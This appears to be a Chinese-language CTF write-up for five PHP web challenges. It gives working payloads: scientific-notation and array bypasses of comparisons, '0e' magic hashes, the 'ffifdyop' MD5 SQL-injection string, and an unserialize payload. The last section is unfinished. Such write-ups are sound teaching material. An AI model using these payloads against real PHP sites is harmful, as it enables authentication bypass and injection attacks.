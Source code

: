 # 0x01 PHP入门
根据php代码
```
<?php

error_reporting(0);
require 'flag.php';
echo base64_encode(hex2bin(strrev(bin2hex($flag)))) . "<br>";

highlight_file(__FILE__);

?>
```
在线执行：
```
<?php

$a=bin2hex(strrev(bin2hex(base64_decode('13YWxmb1Rzcnlmb1VoZH9UdWdrdmRzRXNg=='))));

echo $a;
```
然后十六进制转字符串，执行两次：
得到flag
cuCtf{get_the_first_flag}

# 0x02 今天睡够了么？

>>> 60 * 60 * 24 * 30 * 2
5184000
>>> 60 * 60 * 24 * 30 * 3
7776000

我们传入的time的值需要在上面两个值之间

由于下面有int类型转换，我们可以利用这点进行绕过

int在转换科学计数法的时候只会保留e之前的数字

payload

6e6或0.6e7

cuCtf{How_long_did_I_sleep?}
# 0x03 havefun,funhash

| payload | 作用 |
|--|--|
| hash1=0e251288019 | 可以让md4过后的字符串和原来字符串在弱比较时表示相等 |
|hash2[]=1&hash3[]=2 |绕过两个变量的强比较|
|hash4=ffifdyop|使md5过后显示的值表示为`'or'6<乱码>  即  'or'66�]��!r,��b`|

payload:
`?hash1=0e251288019&hash2[]=1&hash3[]=2&hash4=ffifdyop`

# 0x04 休息一下吧打工人

反序列化漏洞：（贴一个自己的链接）

查看执行的逻辑

```
$KEY1 = "D0g3!!!";
$str1 = $_GET['str1'];
if (unserialize($str1) === "$KEY1")
{
    $b = $_GET['str2'];
    $c = unserialize($b);
}
```
payload：
?str1=O:9:"dagongren":2:{s:1:"a";s:4:"work";}

# 0x05 绕过练习

第一个需要绕过的判断：
password中只能含有数字或字母

ereg()这个函数只能处理字符串的，遇到数组做参数返回NULL，判断用的是 === ，其要求值与类型都要相同，而NULL跟FALSE类型是不同的，可以用这个绕过

第二个需要绕过的判断：
password的长度小于8并且值大于9999999

这里想到科学计数法
`1e8`,长度既小于八，值又大于9999999

第三个需要绕过的判断：
`strpos($_GET['password'], '*-*') !== FALSE`

strpos函数遇到数组，也返回NULL，与FALSE类型不同，if条件成立，输出flag

payload：
`?password[]=1e8`

Flag: cuCtf{Good_only_last_one}

# 0x06 多吃几个

还在做。。





